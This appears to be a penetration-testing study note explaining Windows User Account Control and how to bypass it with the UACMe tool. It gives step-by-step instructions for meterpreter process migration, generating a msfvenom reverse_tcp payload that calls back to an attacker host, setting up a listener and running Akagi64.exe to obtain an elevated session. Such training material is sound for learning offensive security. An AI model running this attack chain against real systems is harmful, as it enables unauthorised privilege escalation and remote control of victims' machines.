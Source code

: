 
### What is UAC ?

UAC (User Access Control)

- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorised changes from being made to the operating system.

- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.

- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.

- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### Bypassing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system. 

- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.

- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation. 

- There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.

### What is `UACMe` ?

- UACMe is an open source, robust privilege escalation tool developed by @hfireOx. It can be used to bypass Windows UAC by leveraging various techniques. 

	+ GitHub: https://github.com/hfiref0x/UACME

- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.

- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AuteElevate tool. 

- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

### How to use `UACMe` ?

- __Prerequisites__
	+ The actual executable to perform the UAC bypass is called `Akagi`, it doesn't comes pre-compiled in the repository as it'll be flagged malicious, therefore we need to compile it ourselves.
	+ In order to elevate privileges by bypassing UAC, we will need access to a user that is a member of the local administrators group. Use command - `net local administrators` to check the list of local administrators.


__STEPS__
1) Gain initial access to a target system
2) If the `meterpreter` session is running in a 32 bit process, we can migrate to a 64 bit process such as `explorer.exe` with PID of 2448. Command is `migrate 2448`.
	+ The process ID of explorer can be found using the command `ps -S explorer.exe`.
	+ Process migration is used for evasion, persistence, stealth and architecture matching.
	+ The original process that the attacker used to gain access to the system is different from the process they inject their code into.
3) We can check the privileges of the current user using `getprivs`
4) Generate a `msfvenom` `meterpreter` payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```
5) Setup the multi handler to listen for connections. `use multi/handler`
6) Go back to the `meterpreter` session and navigate to the Temp directory of the target. `cd %TEMP%`
7) Temp directory is in `C:\Users\<user>\AppData\Local\Temp\`
8) Upload the `payload.exe` and `Akagi64.exe` files into the Temp directory. 
9) `shell` into the system and execute `Akagi64.exe`. 
```
.\Akagi64.exe <key_number> <path_to_payload>
```
10) Make sure to provide the full path to the payload.
11) After executing this command, `Akagi` will execute the payload with administrative privileges. And we should receive an elevated `meterpreter` session in our listener.